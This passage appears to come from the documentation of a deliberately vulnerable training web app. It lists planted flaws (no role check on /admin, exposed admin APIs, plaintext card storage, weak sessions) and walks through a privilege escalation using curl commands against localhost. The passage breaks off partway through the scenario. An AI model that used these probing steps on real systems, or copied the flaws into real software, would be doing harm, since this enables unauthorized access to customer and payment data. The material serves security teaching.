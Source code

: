 ```
- **Location**: Admin dashboard accessible via `/admin` URL path
- **Vulnerability**: No role validation for admin panel access
- **Impact**: Any authenticated user can access admin functions and view all customer data

#### 2. **Sensitive Data Exposure**
- **Location**: Admin API endpoints `/api/admin/users`, `/api/admin/bookings`
- **Vulnerability**: Complete customer data exposed including credit card information
- **Impact**: Financial data breach, PII exposure, payment card data compromise

#### 3. **Weak Session Management**
- **Location**: Express session configuration with default settings
- **Vulnerability**: Insecure session settings enabling hijacking
- **Impact**: Session takeover and impersonation attacks

#### 4. **Credit Card Data Storage**
- **Location**: Database stores complete credit card details in plain text
- **Vulnerability**: PCI DSS violations, plain text card storage
- **Impact**: Full payment card data exposure

---

## 🎯 Attack Scenarios

### Scenario 1: Basic Privilege Escalation via URL Manipulation

#### Step 1: Authenticate as Normal User
```bash
# Using curl to login
curl -X POST http://localhost:3000/api/login \
  -H "Content-Type: application/json" \
  -d '{"email":"user@gmail.com","password":"password"}' \
  -c cookies.txt

# Expected Response
{
  "message": "Login successful",
  "user": {
    "id": 2,
    "username": "user",
    "email": "user@gmail.com",
    "fullname": "John Smith",
    "role": "user"
  }
}
```

#### Step 2: Access Admin Dashboard via URL (Critical Vulnerability!)
```bash
# Direct access to admin panel - should fail but doesn't!
curl -X GET http://localhost:3000/admin \
  -b cookies.txt

# This returns the admin dashboard HTML with full access
```
